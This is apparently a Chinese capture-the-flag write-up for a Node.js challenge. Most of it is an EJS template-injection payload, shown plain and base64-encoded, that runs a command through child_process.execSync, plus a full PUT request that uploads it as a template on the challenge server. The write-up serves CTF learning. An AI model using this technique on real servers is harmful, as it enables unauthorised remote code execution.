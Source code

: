 App.js可以看到两个重要参数：**templ，req.body.content**

templ的功能就是决定使用哪个EJS模板渲染页面，默认是index

而content功能就是文件上传内容（base64编码）

这里就想到了***node.js***注入

相关参考

[Node.js 常见漏洞学习与总结-先知社区](https://xz.aliyun.com/news/6780)

尝试node.js注入

~~~html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN" "http://www.w3.org/TR/html4/strict.dtd">
<html>
<head>
<%- global.process.mainModule.require('child_process').execSync('/readflag') %>
</ul>
<hr>
</body>
</html>
~~~

Base64编码绕

 ~~~
PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9XM0MvL0RURCBIVE1MIDQuMDEvL0VOIiAiaHR0cDovL3d3dy53My5vcmcvVFIvaHRtbDQvc3RyaWN0LmR0ZCI+CjxodG1sPgo8aGVhZD4KPCUtIGdsb2JhbC5wcm9jZXNzLm1haW5Nb2R1bGUucmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCcvcmVhZGZsYWcnKSAlPgo8L3VsPgo8aHI+CjwvYm9keT4KPC9odG1sPgo8L2h0bWw+
 ~~~

抓包在views下面传包，content注入别忘了将请求头改成PUT

poc： 

~~~
PUT /views/jumao.ejs/. HTTP/1.1
Host: 45.40.247.139:20306
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36 Core/1.116.554.400 QQBrowser/19.5.6663.400
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Token=8004954b000000000000008c03617070948c04557365729493942981947d94288c026964944b028c08757365726e616d65948c056775657374948c0869735f61646d696e94898c096c6f676765645f696e948875622e
Content-Type: application/json
If-None-Match: W/"273-if8cs80g9cADhHskk2Pvb4OoltU"
Connection: keep-alive
Content-Length: 754

{"content":"PCFET0NUWVBFIEhUTUwgUFVCTElDICItLy9XM0MvL0RURCBIVE1MIDQuMDEvL0VOIiAiaHR0cDovL3d3dy53My5vcmcvVFIvaHRtbDQvc3RyaWN0LmR0ZCI+CjxodG1sPgo8aGVhZD4KPCUtIGdsb2JhbC5wcm9jZXNzLm1haW5Nb2R1bGUucmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWNTeW5jKCcvcmVhZGZsYWcnKSAlPgo8L3VsPgo8aHI+CjwvYm9keT4KPC9odG1sPgo8L2h0bWw+"}
~~~
